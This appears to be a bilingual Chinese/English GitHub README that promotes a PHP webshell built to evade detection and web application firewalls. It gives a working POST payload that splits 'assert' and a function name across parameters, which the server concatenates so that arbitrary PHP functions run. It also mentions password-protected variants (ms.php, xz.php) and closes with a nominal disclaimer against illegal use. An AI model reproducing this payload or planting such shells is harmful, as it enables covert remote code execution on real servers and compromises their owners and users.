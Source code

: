  # shell

 新版本（>7.2）ms不再可用！！！
 
我发现了一种php-shell的新写法，它可以绕过大部分的检测，调用任意php函数，还可以用分块传输绕过waf

使用post发送如下参数

hack1=ass&hack2=ert&hack3=phpi&hack4=fo()&hack5=pwd


hack1会和hack2拼接，hack3会和hack4拼接而形成assert(phpinfo())

I have discovered a new way to write a PHP shell that can bypass most of the detection, call arbitrary PHP functions, and bypass waf using block transfer

Send the following parameters using post

hack1=ass&hack2=ert&hack3=phpi&hack4=fo()&hack5=pwd

Hack1 will be spliced with Hack2, and Hack3 will be spliced with Hack4 to form an assert (phpinfo())
![1](https://user-images.githubusercontent.com/90552883/229515220-742c99b2-a06f-4f30-99b9-c57b3a1c373a.PNG)
![2](https://user-images.githubusercontent.com/90552883/229515223-ce3efc9e-e456-4421-81c6-1036808c2bbf.PNG)
![3](https://user-images.githubusercontent.com/90552883/229515226-11aaa83e-9ab8-4b24-b30b-cd996e23df69.PNG)
![4](https://user-images.githubusercontent.com/90552883/229517804-b1b83abb-d678-4b24-b2be-dd9bcddde2e4.PNG)

我还编写了通过拼接编码方式来绕过检测的ms.php(绕过效果比xz.php差) 可以向php一句话一样来使用它 密码（hack1)

欢迎各位提供绕过思路

请勿用于违法行为！！！！！！！！！！！！！！！

I also wrote ms.php that bypasses detection through concatenation encoding (the bypass effect is worse than xz.php), and can use its password (hack1) like a sentence in PHP

Welcome to provide bypass ideas

Please do not use it for illegal activities!!!!!!!!!!!!!!!

